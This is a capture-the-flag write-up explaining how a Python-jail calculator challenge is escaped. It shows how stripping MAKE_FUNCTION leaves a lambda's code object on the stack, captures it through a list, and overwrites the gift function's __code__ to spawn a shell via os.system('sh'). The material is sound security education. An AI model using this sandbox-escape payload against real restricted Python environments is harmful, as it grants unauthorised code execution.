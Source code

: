 # TI-1337 Silver Edition
**Category:**  Misc

**Author:**  kmh

**Description:**
> Back in the day the silver edition was the top of the line Texas Instruments calculator, but now the security is looking a little obsolete. Can you break it?

TI-1337 Silver Edition is from what I can tell the fourth installation in a series of calculator-imitating, python-jail challenges from [kmh](https://twitter.com/themalwareman). His goal seems to be to create a perfectly safe calculator where only math and no shenanigans are allowed, but there is of course always some slight problem.

## Overview
In this challenge we are given `ti1337se.py`, as well as a Dockerfile. The Dockerfile initializes the python script and changes the flag to a random name, meaning we will most likely need to gain a shell to access it. 
```docker
FROM redpwn/jail:0.1.3

COPY --from=python:3.9 / /srv
COPY flag.txt /srv/
RUN chmod 444 /srv/flag.txt && mv /srv/flag.txt /srv/flag.`tr -dc A-Za-z0-9 < /dev/urandom | head -c 20`.txt
COPY ti1337se.py /srv/app/run
RUN chmod 755 /srv/app/run
```
In the python script we are asked to enter calculations, and our input (in the form of python code) is then compiled to bytecode and passed through a number of different checks and filters before it is executed. 
```python
# irrelevant code omitted

banned = ["MAKE_FUNCTION", "CALL_FUNCTION", "CALL_FUNCTION_KW", "CALL_FUNCTION_EX"]

math = input("> ")
code = compile(math, "<math>", "exec")

bytecode = list(code.co_code)
instructions = list(dis.get_instructions(code))
for  i, inst  in  enumerate(instructions):
	if  inst.is_jump_target:
		print("Math doesn't need control flow!")
		sys.exit(1)
	nextoffset = instructions[i+1].offset  if  i+1 < len(instructions) else  len(bytecode)
	if  inst.opname  in  banned:
		bytecode[inst.offset:instructions[i+1].offset] = [-1]*(instructions[i+1].offset-inst.offset)
  
names = list(code.co_names)
for  i, name  in  enumerate(code.co_names):
	if  "__"  in  name: names[i] = "$INVALID$" 
code = code.replace(co_code=bytes(b  for  b  in  bytecode  if  b >= 0), co_names=tuple(names), co_stacksize=2**20)

v = {}
exec(code, {"__builtins__": {"gift": gift}}, v)
if  v: print("\n".join(f"{name} = {val}"  for  name, val  in  v.items()))
else: print("No results stored.")
```
As the print statement mentions, no control flow is allowed, although that will not be a huge issue. What is an issue however is that the opcodes in the `banned` list is, believe it or not, banned, which means we can't call nor create functions. We are also not allowed to use any attribute or variable name in our code that contains `__`, something very useful in most pyjails.

When we are done with all that our code is finally executed, but we don't have access to any built-in functions. We do however receive a `gift`, which is defined as follows:
```python
used_gift = False
def gift(target, name, value):
	global used_gift
	if used_gift: sys.exit(1)
	used_gift = True
	setattr(target, name, value)
```
It allows us to set an attribute on an object, and since the `name` variable is just a string, that means we can set attributes whose names include `__`, since names in the scope does not include the content of strings. It does however only allow us to use our gift once.
## Breaking out
### Calling `gift`
We can not just write `gift(target, name, value)` and expect it to execute, since the opcode `CALL_FUNCTION` and all its variants are banned. Looking into the documentation for [dis](https://docs.python.org/3/library/dis.html), the python bytecode disassembler, we find that the opcode for calling methods on objects is different than that of calling functions, and `CALL_METHOD` is allowed here.

Turning something into a method is about as straight forward as you might think, we just need to assign a function to an object and it turns into a method. The only object we have access to is `gift` itself, so the choice is fairly straight forward. This is therefore how we can call `gift`, by assigning it to itself and calling it as a method:

`gift.g=gift;gift.g(target, name, value)`

Now the question becomes, how can we gain RCE by via this?

### Filter consequences

Something worth noting is that functions we create are not sanitized from banned function calls like the main body is. It treats those functions as any other object and just glosses over them. 

But hang on, didn't I mention we couldn't create functions? Well, sort of. The opcode `MAKE_FUNCTION` is removed from whatever program we submit, but if we look at the [documentation](https://docs.python.org/3/library/dis.html) we see that `MAKE_FUNCTION`'s purpose is to combine a code object and a qualified name into a function object, from the stack. That means the code object and the name of the function we create stay on the stack, the function object is just never created. We can see this if we disassemble the bytecode before and after the filtering. Consider this line of code

`a=lambda: __import__('os').system('sh')`

The disassembly before any filters are run looks like this:
```
1             0 LOAD_CONST               0 (<code object <lambda> at 0x0000023C45071D10, file "<math>", line 1>)
              2 LOAD_CONST               1 ('<lambda>')
              4 MAKE_FUNCTION            0
              6 STORE_NAME               0 (a)
              8 LOAD_CONST               2 (None)
             10 RETURN_VALUE
```
The string `'<lambda>'` and the code object itself is loaded onto the stack, and after that `MAKE_FUNCTION` is called which pops both values of the stack and pushes the new function object onto the top of the stack, after which it is then popped off and stored into `a`.

But what happens then when the `MAKE_FUNCTION` call is removed? Well the function object is never created and the name and code object stay on the stack. When `a` is then loaded it pops the value that is at the top, so `a` gets set to the string `'<lambda>'`. We can see that this is indeed what happens when we run the program.
```
ti1337/> python3 ti1337se.py
Welcome to the TI-1337 Silver Edition. Enter your calculations below:
> a=lambda: __import__('os').system('sh')
a = <lambda>
```
### Stack shenanigans 
You might have seen where we are going with this. We now know that we can create any function we want, we just loose it to the stack. The trick here is that we can utilize this stack offset to capture the code object elsewhere.

This is the bytecode for `a=[1, 2, 3]`
```
  1           0 LOAD_CONST               0 (1)
              2 LOAD_CONST               1 (2)
              4 LOAD_CONST               2 (3)
              6 BUILD_LIST               3
              8 STORE_NAME               0 (a)
             10 LOAD_CONST               3 (None)
             12 RETURN_VALUE
```
The three values are pushed to the stack, and then `BUILD_LIST` with the count set to `3` consumes those three values from the stack and builds the list. So what happens now if we insert our lambda function into this list?

`a=[1, lambda: __import__('os').system('sh')]` compiles into
```
  1           0 LOAD_CONST               0 (1)
              2 LOAD_CONST               1 (<code object <lambda> at 0x7f0ee099f710, file "<math>", line 1>)
              4 LOAD_CONST               2 ('<lambda>')
              6 BUILD_LIST               2
              8 STORE_NAME               0 (a)
             10 LOAD_CONST               3 (None)
             12 RETURN_VALUE
```
Three values are now pushed onto the stack; the first element of the list (`1`) and both the function name and the code object. But since `MAKE_LIST` thinks it is receiving two arguments it only consumes our code object and the name. So now we have a reference to the code object, which we control, through `a[0]`! We can verify that this works:
```
ti1337/> python3 ti1337se.py
Welcome to the TI-1337 Silver Edition. Enter your calculations below:
> a=[1, lambda: __import__('os').system('sh')]
a = [<code object <lambda> at 0x7ff5ec1ee710, file "<math>", line 1>, '<lambda>']
```
### The payload
The final payload looks like this
`a=[1,lambda:__import__('os').system('sh')][0];gift.g=gift;gift.g(gift.g,'__code__',a); gift.g()`

These are the steps we take:

 - Capture the code object using a list with an entry we do not need, storing it in `a`
 - Set the gift as a method on itself making it callable
 - Using the gift we set its own code attribute to the custom one we created, which now has access to the normal `__builtins__` since it is running in the gift's scope.
 - Call gift again executing our own code object spawning a shell

Using this we can navigate to the right directory and cat the flag!

Flag: `dice{i_sh0uldve_upgr4ded_to_th3_color_edit10n}`
